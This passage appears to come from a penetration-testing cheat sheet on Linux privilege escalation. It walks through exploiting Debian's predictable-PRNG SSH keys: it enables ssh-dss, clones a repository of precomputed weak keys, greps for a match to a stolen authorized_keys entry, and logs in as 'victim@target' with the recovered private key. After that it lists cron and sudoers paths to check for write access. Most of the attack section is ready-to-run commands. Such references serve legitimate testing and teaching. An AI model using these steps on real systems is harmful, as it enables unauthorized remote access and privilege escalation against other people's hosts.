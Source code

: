 ### SSH Key Predictable PRNG (Authorized_Keys) Process

This module describes how to attempt to use an obtained authorized_keys file on a host system.

Needed : SSH-DSS String from authorized_keys file

**Steps**

1. Get the authorized_keys file. An example of this file would look like so:

```
ssh-dss AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf ... (snipped) ... 
```

2. Since this is an ssh-dss key, we need to add that to our local copy of `/etc/ssh/ssh_config` and `/etc/ssh/sshd_config`:

```
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/ssh_config
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/sshd_config
/etc/init.d/ssh restart
```

3. Get [g0tmi1k's debian-ssh repository](https://github.com/g0tmi1k/debian-ssh) and unpack the keys:

```
git clone https://github.com/g0tmi1k/debian-ssh
cd debian-ssh
tar vjxf common_keys/debian_ssh_dsa_1024_x86.tar.bz2
```

4. Grab the first 20 or 30 bytes from the key file shown above starting with the `"AAAA..."` portion and grep the unpacked keys with it as:

```
grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf'
dsa/1024/68b329da9893e34099c7d8ad5cb9c940-17934.pub
```

5. IF SUCCESSFUL, this will return a file (68b329da9893e34099c7d8ad5cb9c940-17934.pub) public file. To use the private key file to connect, drop the '.pub' extension and do:

```
ssh -vvv victim@target -i 68b329da9893e34099c7d8ad5cb9c940-17934
```

And you should connect without requiring a password. If stuck, the `-vvv` verbosity should provide enough details as to why.

## Scheduled tasks

### Cron jobs

Check if you have access with write permission on these files.   
Check inside the file, to find other paths with write permissions.   

```bash
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
```